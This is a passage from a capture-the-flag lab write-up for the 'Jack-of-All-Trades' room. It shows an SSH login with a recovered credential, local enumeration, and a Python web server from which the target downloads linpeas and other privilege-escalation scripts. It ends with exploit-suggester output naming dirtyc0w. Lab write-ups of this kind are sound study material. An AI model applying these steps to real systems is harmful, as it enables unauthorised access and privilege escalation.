We found `jack` credential.

# User flag

Now we can access through SSH (on port 80!):

```
root@kaligra:/home/joshua/thm/Jack-of-All-Trades# ssh jack@10.10.83.56 -p 80
The authenticity of host '[10.10.83.56]:80 ([10.10.83.56]:80)' can't be established.
ED25519 key fingerprint is SHA256:bSyXlK+OxeoJlGqap08C5QAC61h1fMG68V+HNoDA9lk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.83.56]:80' (ED25519) to the list of known hosts.
jack@10.10.83.56's password:
jack@jack-of-all-trades:~$ ls
user.jpg
```

We can grab user flag directly on jpg image.

# Privesc

We got no lock with `sudo`, `crontab`:

```
jack@jack-of-all-trades:~$ sudo -l
[sudo] password for jack:
Sorry, user jack may not run sudo on jack-of-all-trades.
jack@jack-of-all-trades:~$ crontab -l
no crontab for jack
```

We decide to focus on kernel:

```
jack@jack-of-all-trades:~$ uname -ar
Linux jack-of-all-trades 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt9-2 (2015-04-13) x86_64 GNU/Linux
```

We spawn a python webserver on our attacker machine:

```
root@kaligra:/opt/tools# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.83.56 - - [01/Mar/2022 18:09:18] "GET /linpeas.sh HTTP/1.1" 200 -
10.10.83.56 - - [01/Mar/2022 18:09:25] "GET /linuxprivchecker.py HTTP/1.1" 200 -
10.10.83.56 - - [01/Mar/2022 18:09:32] "GET /LinEnum.sh HTTP/1.1" 200 -
```

...and we transfer some tools on target.

Linux Exploit Suggester tell us that `dirtyc0w` is a potential privesc strategy:

```
jack@jack-of-all-trades:~$ ./linux-exploit-suggester.sh

Available information:

Kernel version: 3.16.0
Architecture: x86_64
Distribution: debian
Distribution version: 8
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

78 kernel space exploits
```